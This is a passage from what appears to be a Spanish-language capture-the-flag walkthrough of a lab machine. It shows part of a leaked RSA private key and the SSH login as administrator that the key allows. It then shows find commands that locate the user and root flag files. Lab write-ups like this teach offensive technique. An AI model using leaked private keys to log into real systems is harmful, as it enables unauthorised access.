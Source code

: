 ```
5P39Ha3zlnYpbCbzafYhCydzTHl3k8wfs5VotX/NiUpKGCdIGS7Wc8OUPBtDBoyi
xn3SnIneZtqtp16l+p9pcQKBgAg1Xbe9vSQmvF4J1XwaAfUCfatyjb0GO9j52Yp7
MlS1yYg4tGJaWFFZGSfe+tMNP+XuJKtN4JSjnGgvHDoks8dbYZ5jaN03Frvq2HBY
RGOPwJSN7emx4YKpqTPDRmx/Q3C/sYos628CF2nn4aCKtDeNLTQ3qDORhUcD5BMq
bsf9AoGBAIWYKT0wMlOWForD39SEN3hqP3hkGeAmbIdZXFnUzRioKb4KZ42sVy5B
q3CKhoCDk8N+97jYJhPXdIWqtJPoOfPj6BtjxQEBoacW923tOblPeYkI9biVUyIp
BYxKDs3rNUsW1UUHAvBh0OYs+v/X+Z/2KVLLeClznDJWh/PNqF5I
-----END RSA PRIVATE KEY-----
```

Nos creamos un archivo llamado `id_rsa` y le añadimos el `privilegio 600` con `chmod`, una vez hecho eso nos `conectamos` usando esta `id_rsa` a la máquina víctima

```
# ssh -i id_rsa administrator@10.129.189.200

Microsoft Windows [Version 10.0.17763.1039]
(c) 2018 Microsoft Corporation. All rights reserved.

administrator@TOOLBOX C:\Users\Administrator>whoami
toolbox\administrator
```

## Flags

Desde el contenedor ya podemos obtener ambas `flags` pero la idea sería `ganar acceso` a la `máquina windows` tal y como lo hemos hecho anteriormente

```
bash-4.4# find / -name user.txt 2>/dev/null
/mnt/sda1/var/lib/docker/overlay2/07623502c61c6209351069a7c272a5514f193c50302d83ead62325346bf41d06/merged/var/lib/postgresql/user.txt
/mnt/sda1/var/lib/docker/overlay2/20aed3bef7110c6e08a7fc7f476fcdf690589baabf19f49b462b7395724731d2/diff/var/lib/postgresql/user.txt
bash-4.4# find / -name root.txt 2>/dev/null
/c/Users/Administrator/Desktop/root.txt
```

